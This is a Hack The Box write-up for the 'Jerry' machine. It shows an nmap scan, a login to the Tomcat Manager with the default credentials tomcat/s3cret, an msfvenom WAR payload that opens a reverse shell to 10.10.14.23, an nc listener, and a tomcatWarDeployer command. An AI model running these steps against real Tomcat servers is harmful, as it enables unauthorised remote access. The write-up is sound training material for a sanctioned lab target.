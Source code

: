 ```yaml
---
title: "Jerry - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Jerry
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Jerry
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217112415.png)
 
## Reconnaissance

IP: 10.10.10.95
### NMAP

```
nmap -T4 -A -p- 10.10.10.95
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 05:27 EST
Nmap scan report for 10.10.10.95
Host is up (0.032s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   31.17 ms 10.10.14.1
2   31.24 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.08 seconds

```

After running NMAP we can see that only port 8080 is open, and it is running Apache Tomcat
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217113322.png)
The site shows only default install of Tomcat
### Login

Let's try default credentials to Apache Tomcat 
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217113705.png)
tomcat/ s3cret work to get access to the Tomcat Manager Application

## Gaining Access

We can put WAR file on server, so let's make malicious WAR file via MSFVenom to get a reverse shell. As we can see on website, machine is running Windows Server 2012 R2 x64
https://github.com/Jflye/netsec/blob/master/msfvenomPayloads.md

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4443 -f war -o shell.war
```

Start listening

```
nc -nvlp 4443
```

Put payload on server and click deploy
Navigate to our payload

```
http://10.10.10.95:8080/shell/
```
and we have shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250217115916.png)

Now we can take our flags by navigating to:

```
/users/administrator/desktop/flags
type "2 for the price of 1.txt"
```

we can also try do it with non-Metasploit method

https://github.com/mgeeky/tomcatWarDeployer

```
python tomcatWarDeployer.py -v -x -p 4449 -H 10.10.14.23 10.10.10.95:8080
```